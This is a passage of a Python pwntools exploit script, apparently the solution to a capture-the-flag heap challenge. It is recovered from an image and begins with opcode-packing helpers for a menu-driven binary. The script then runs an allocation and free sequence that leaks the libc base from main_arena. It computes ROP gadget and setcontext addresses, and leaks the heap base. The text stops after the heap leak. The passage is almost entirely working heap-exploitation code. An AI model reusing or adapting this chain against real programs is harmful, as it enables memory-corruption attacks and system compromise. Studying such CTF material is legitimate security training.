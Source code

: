 ```plain


def show(idx):
    global all_payload
    payload = p8(0x3)
    payload += p8(idx)
    all_payload += payload


def delete(idx):
    global all_payload
    payload = p8(0x2)
    payload += p8(idx)
    all_payload += payload


def edit(idx, buf):
    global all_payload
    payload = p8(0x4)
    payload += p8(idx)
    payload += p16(len(buf))
    payload += str(buf)
    all_payload += payload


def run_opcode():
    global all_payload
    all_payload += p8(5)
    sh.sendafter("Pls input the opcode", all_payload)
    all_payload = ""


# leak libc_base
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)
delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = u64(sh.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - 0x1f30b0  # main_arena + 1104
log.success("libc_base:\t" + hex(libc_base))
libc.address = libc_base

guard = libc_base + 0x2035f0
pop_rdi_addr = libc_base + 0x2daa2
pop_rsi_addr = libc_base + 0x37c0a
pop_rax_addr = libc_base + 0x446c0
syscall_addr = libc_base + 0x883b6
gadget_addr = libc_base + 0x146020  # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_addr = libc_base + 0x50bc0

# leak heapbase
edit(2, "a" * 0x10)
show(2)
run_opcode()
sh.recvuntil("a" * 0x10)
heap_base = u64(sh.recv(6).ljust(8, '\x00')) - 0x2ae0
log.success("heap_base:\t" + hex(heap_base))

```